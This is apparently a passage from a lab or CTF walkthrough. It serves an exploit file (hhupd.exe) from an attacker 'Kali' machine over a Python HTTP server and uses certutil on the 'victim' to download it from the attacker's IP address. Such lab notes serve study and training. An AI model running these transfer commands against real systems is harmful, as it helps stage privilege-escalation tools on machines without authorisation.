 **Kali**

Download [https://packetstormsecurity.com/files/download/14437/hhupd.exe](https://packetstormsecurity.com/files/download/14437/hhupd.exe)

```
python2 -m SimpleHTTPServer 81
```

**Victim(cmd)**

```
cd Downloads
certutil -urlcache -f http://10.10.162.126:81/hhupd.exe hhupd.exe
```

<figure><img src="../../.gitbook/assets/image (44) (3).png" alt=""><figcaption></figcaption></figure>
